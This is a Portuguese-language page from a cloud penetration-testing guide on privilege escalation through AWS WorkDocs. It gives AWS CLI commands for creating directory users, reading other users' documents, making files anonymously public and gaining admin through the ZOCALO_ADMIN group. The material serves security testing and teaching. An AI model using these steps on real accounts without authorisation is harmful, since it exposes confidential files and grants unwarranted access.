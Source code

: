 # AWS - WorkDocs Privesc

## WorkDocs

Para mais informações sobre o WorkDocs, consulte:

{% content-ref url="../aws-services/aws-directory-services-workdocs-enum.md" %}
[aws-directory-services-workdocs-enum.md](../aws-services/aws-directory-services-workdocs-enum.md)
{% endcontent-ref %}

### `workdocs:CreateUser`

Crie um usuário dentro do diretório indicado e, em seguida, você terá acesso tanto ao WorkDocs quanto ao AD:

```bash
# Crie um usuário (criado dentro do AD)
aws workdocs create-user --username testingasd --given-name testingasd --surname testingasd --password <password> --email-address name@directory.domain --organization-id <directory-id>
```

### `workdocs:GetDocument`, `(workdocs:`DescribeActivities`)`

Os arquivos podem conter informações sensíveis, leia-os:

```bash
# Obtenha o que foi criado no diretório
aws workdocs describe-activities --organization-id <directory-id>

# Obtenha o que cada usuário criou
aws workdocs describe-activities --user-id "S-1-5-21-377..."

# Obtenha o arquivo (será recuperada uma URL para acessar o conteúdo)
aws workdocs get-document --document-id <doc-id>
```

### `workdocs:AddResourcePermissions`

Se você não tem acesso para ler algo, você pode simplesmente concedê-lo

```bash
# Adicione permissão para que qualquer pessoa possa ver o arquivo
aws workdocs add-resource-permissions --resource-id <id> --principals Id=anonymous,Type=ANONYMOUS,Role=VIEWER
## Isso dará um ID, o arquivo será acessível em: https://<name>.awsapps.com/workdocs/index.html#/share/document/<id>
```

### `workdocs:AddUserToGroup`

Você pode tornar um usuário administrador definindo-o no grupo ZOCALO\_ADMIN.\
Para isso, siga as instruções em [https://docs.aws.amazon.com/workdocs/latest/adminguide/manage\_set\_admin.html](https://docs.aws.amazon.com/workdocs/latest/adminguide/manage\_set\_admin.html)

Faça login com esse usuário no workdoc e acesse o painel de administração em `/workdocs/index.html#/admin`

Não encontrei nenhuma maneira de fazer isso a partir da linha de comando.

